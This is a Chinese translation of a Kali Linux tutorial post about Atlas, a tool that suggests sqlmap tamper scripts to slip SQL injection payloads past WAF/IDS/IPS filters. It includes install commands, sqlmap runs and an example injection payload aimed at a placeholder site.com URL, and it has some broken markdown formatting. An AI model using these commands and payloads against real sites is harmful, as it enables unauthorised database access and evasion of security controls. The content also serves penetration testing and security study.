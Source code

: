 # atlas–建议快速篡改 sqlmap

> 原文：<https://kalilinuxtutorials.com/atlas/>

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。

![](img//766cde23d5f1e1b9f97032bea47f9f6e.png)

## **图集安装**

```
**$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py** 
```

**也可阅读[dex 2 jar——与 Android 协同工作的工具。dex & Java。类文件](https://kalilinuxtutorials.com/dex2jar-android-java/)**

## **用法****T3`T5`**

 ````
`$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --dbms=mysql --random-agent -v`
```

 `## **截图**

![](img//d968ec4a459314664d6ad3df714844b6.png)

## **例子**

1.  运行 SQLMap:

```
`$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3` 
```

![](img//47eef479985d5f9e13712b65655c3c70.png)

`**Price_ASC') AND 8716=4837 AND ('yajr'='yajr**`被 WAF/IDS/IPS 屏蔽，现在用 Atlas 尝试:

```
`$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v` 
```

![](img//fe0192231f3f7cd68eb4798e694f33b2.png)

此时:

```
**$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...** 
```

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/m4ll0k/Atlas)``